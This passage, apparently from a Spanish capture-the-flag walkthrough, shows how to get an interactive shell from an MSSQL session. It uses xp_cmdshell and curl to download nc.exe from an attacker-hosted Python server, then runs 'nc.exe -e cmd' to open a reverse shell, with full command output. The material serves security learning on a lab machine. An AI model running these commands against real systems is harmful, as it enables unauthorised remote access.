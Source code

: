 Continuemos.

<br>

<h3 id="binarioNC">Obteniendo Shell con Binario nc.exe</h3>

Comprueba que la máquina tenga la herramienta **curl**:
```sql
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "curl"
output                                         
--------------------------------------------   
curl: try 'curl --help' for more information   

NULL
```

**Kali Linux** y **SecLists** tienen un binario de **netcat**:
```bash
locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

Cópialo en tu directorio de trabajo y abre un servidor en **Python**:
```bash
cp /usr/share/windows-resources/binaries/nc.exe .

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Carguemos el binario a la máquina en el **directorio /Temp**:
```sql
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "curl Tu_IP/nc.exe -o C:\Temp\nc.exe"
output                                                                             
--------------------------------------------------------------------------------   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                 Dload  Upload   Total   Spent    Left  Speed      
100 59392  100 59392    0     0   194k      0 --:--:-- --:--:-- --:--:--  194k   

NULL
```

Abre una sesión de **netcat**, pero usando **rlwrap** (muy útil para **Windows**):
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Y desde la sesión de **MSSQL**, usemos el binario de **netcat** para obtener una **cmd**:
```sql
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "C:\Temp\nc.exe -e cmd Tu_IP 443"
```

Listo, tenemos una sesión interactiva:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.168] 58119
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
scrm\sqlsvc
```
